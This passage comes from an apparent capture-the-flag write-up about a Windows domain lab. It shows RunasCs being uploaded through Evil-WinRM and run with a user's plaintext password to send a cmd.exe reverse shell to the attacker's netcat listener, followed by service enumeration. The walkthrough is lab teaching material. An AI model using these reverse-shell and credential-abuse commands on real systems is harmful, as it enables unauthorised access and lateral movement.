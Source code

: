 > Always create another folder `Temp` to upload instead of using those standard folder cause we do not know that those folder are begin tracked or not.

Now look for how to use this tool. Found this [article](https://arttoolkit.github.io/wadcoms/RunasCs/) or using `-h` to see the help menu. <br>
&rarr; We gonna run and our kali will start to listen on port `3333`.

```bash
└─$ rlwrap -cAr nc -lvnp 3333
listening on [any] 3333 ...
```

```powershell
*Evil-WinRM* PS C:\Temp> .\RunasCs.exe ee.reed P@ssword123 cmd.exe -r 10.10.14.59:3333
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-25e9f9d$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 2188 created in background.
```

```bash
└─$ rlwrap -cAr nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.4.62] 49600
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
rustykey\ee.reed
```

We got the shell as `ee.reed` user.

Remember that we still have `mm.turner` user, let's recon in `ee.reed` to find the way to get there.

```bash
C:\Windows\system32>tasklist /svc
tasklist /svc

Image Name                     PID Services                                    
========================= ======== ============================================
System Idle Process              0 N/A                                         
System                           4 N/A                                         
Registry                        88 N/A                                         
smss.exe                       268 N/A                                         
csrss.exe                      372 N/A                                         
wininit.exe                    476 N/A                                         
csrss.exe                      484 N/A                                         
winlogon.exe                   548 N/A                                         
services.exe                   616 N/A                                         
lsass.exe                      636 Kdc, KeyIso, Netlogon, SamSs                
svchost.exe                    832 PlugPlay                                    
svchost.exe                    852 BrokerInfrastructure, DcomLaunch, Power,    
                                   SystemEventsBroker                          
svchost.exe                    888 RpcEptMapper, RpcSs                         
svchost.exe                    940 LSM                                         
svchost.exe                    312 lmhosts                                     
svchost.exe                    304 nsi                                         
svchost.exe                    340 W32Time                                     
svchost.exe                    692 NcbService                                  
svchost.exe                    768 TimeBrokerSvc                               
svchost.exe                    688 Dhcp                                        
```